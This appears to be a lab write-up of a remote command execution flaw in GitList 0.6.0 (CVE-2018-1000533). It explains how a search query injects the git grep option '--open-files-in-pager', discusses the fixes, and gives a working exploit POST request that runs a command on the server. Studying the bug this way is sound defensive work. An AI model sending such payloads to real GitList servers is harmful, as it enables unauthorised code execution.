

GitList 0.6.0 Remote Command Execution (CVE-2018-1000533)¶
GitList is an elegant and modern git repository viewer.
GitList version <= 0.6 contains a passing incorrectly sanitized input to system function vulnerability in searchTree function that can result in executing arbitrary commands as PHP user. This attack appear to be exploitable via POST request using search form.
References:
- https://github.com/klaussilveira/gitlist/commit/87b8c26b023c3fc37f0796b14bb13710f397b322
- https://www.exploit-db.com/exploits/44548
- https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html
Vulnerable environment¶
Execute following command to start a GitList server 0.6.0:
docker compose up -d
After the server is started, browse the http://your-ip:8080 and you will see a repository named example.
Vulnerability Principle¶
GitList uses git grep while searching code in repository:
public function searchTree($query, $branch)
{
if (empty($query)) {
return null;
}
$query = escapeshellarg($query);
try {
$results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
} catch (\RuntimeException $e) {
return false;
}
$query is the search keyword, $branch is the target branch.
id will be executed if attacker passed --open-files-in-pager=id; as the $query's value:
There are two reasons for this vulnerability:
- Misunderstanding of the
escapeshellargfunction, resulting in arguments injection - The value of the
--open-files-in-pagerargument ofgit grep, which will be directly executed
Theoretically, after $query = escapeshellarg($query);, $query will become a string wrapped in single quotes. The premise of the bug is that the string should appear in the “parameter value” position, not in the parameter option.
To fix this issue, we can put the $query option behind -e:
git grep -i --line-number -e '--open-files-in-pager=id;' master

This is the suggestion from Git official:
-e The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by or.
GitList used another fix:
public function searchTree($query, $branch)
{
if (empty($query)) {
return null;
}
$query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
$query = escapeshellarg($query);
try {
$results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
} catch (\RuntimeException $e) {
return false;
}
Firstly, remove illegal - prefix from $query, then put it behind --. The double-dash (--) will be accepted as a delimiter indicating the end of options in command line.
A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.
So this this patch is acceptable, except that the preg_replace in the first step affects the normal search function.
Exploit¶
Send following request:
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56
query=--open-files-in-pager=touch /tmp/success;
Noted that there are two arguments in URL: /[repo_name]/tree/[keyword]/search. [repo_name] must be a existing repository in the GitList, [keyword] is a search keyword that produces at least one result.
After the request is sent, use docker compose exec web bash to enter the container and you can see that /tmp/success has been successfully created:
